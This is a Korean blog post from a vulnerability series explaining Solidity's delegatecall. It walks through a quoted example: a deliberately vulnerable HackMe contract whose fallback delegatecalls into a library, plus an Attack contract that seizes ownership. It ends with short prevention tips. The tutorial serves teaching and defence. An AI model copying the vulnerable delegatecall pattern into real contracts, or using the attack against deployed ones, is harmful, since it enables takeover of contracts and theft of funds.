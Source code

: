 ```yaml
---
emoji: 🧢
title: (취약점 시리즈 4) Delegate Call
date: '2021-12-26 22:34:00'
author: 한성원
tags: DelegateCall 취약점 SmartContract
categories: 취약점분석
---
```


# 👋 DelegateCall

## 들어가기전 Call 과 Delegate Call의 차이점
#### Call이란?
Call은 다른 contract와 상호작용하기 위한 low level function이다.

컨트랙트 A를 통해 컨트랙트 B의 함수 호출시 B의 Storage를 변경시키며 msg.sender(호출자)는 컨트랙트A의 주소가 됩니다.

#### Delegate Call이란?
delegate call은 call과 매우 유사하다. delegate은 '위임하다' 라는 뜻으로 call에 대한 권한을 위임한다고 볼 수 있다. 

Delegate Call에는 2가지 특징이 있다.
1. 호출한 contract의 context를 기반으로 동작된다.
2. storage layout은 delegatecall을 이용하는 contract와 같아야한다.

예를 들어 컨트랙트 A를 통해 컨트랙트 B 호출시 B의 Storage를 변경시키지 않고, B의 코드를 A에서 실행합니다. msg.sender와 msg.value가 컨트랙트 A 호출시와 같고, 변동되지 않습니다.

만약 delegate call에 대해 방지하지 않는다면 contract의 내용을 hacker가 마음대로 조종 할 수 있게 될수도 있다. EX) owner변경, ether 가로채기 등등

- - -

## Example Code 1
```solidity
contract Lib {
    address public owner;

    function pwn() public {
        owner = msg.sender;
    }
}

contract HackMe {
    address public owner;
    Lib public lib;

    constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }

    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}

contract Attack {
    address public hackMe;

    constructor(address _hackMe) {
        hackMe = _hackMe;
    }

    function attack() public {
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}
```
<span style="color:grey">출처: https://solidity-by-example.org/hacks/delegatecall/ </span> 

시나리오는 이렇다.
1. A가 Lib contract 배포
2. A가 Lib의 address를 포함한 HackMe contract 배포
3. __Hacker__ 가 HackMe의 address를 포함한 Attack contract 배포
4. __Hacker__ 가 Attack.attack()을 call
5. HackMe contract의 owner는 Attack contract가 된다.

좀 더 자세히 들여다보겠다. 
__Hacker__ 가 Attack.attack를 call하게 되면 HackMe contract의 fallback function이 실행된다. Fallback function에는 lib를 쓰기 위한 Delegate Call이 존재한다. Attack.attack에서 "pwn()"을 보냈기 때문에 Lib contract의 pwn이 실행된다. 
이때 delegate call로 call하였기 때문에 msg.sender은 Attack contract가 된다. 이렇게되면 Attack contract가 HackMe의 주인이 된다.

## How to prevent?
1. __library__ 키워드를 사용한다. 
    library 키워드를 사용함으로써 stateless하고 self destruct를 방지 할 수 있다.
2. 가능하다면 stateless 라이브러리를 사용한다.
    위와 마찬가지로 stateless하다면 바꿀 state가 없기 때문에 더 안전해질 수 있다.
    
## 마무리
나에게 Delegate call은 생각보다 개념이 어려웠다. Example code와 다른 example들을 통해 실습하면서 개념을 얻을 것 같다. 한편으로 이게 어려우면 다른건 어째하냐~~ 라는 생각이들지만 그때마다 실습하지 뭐!! 실습 짱!!


- - -


```toc

```
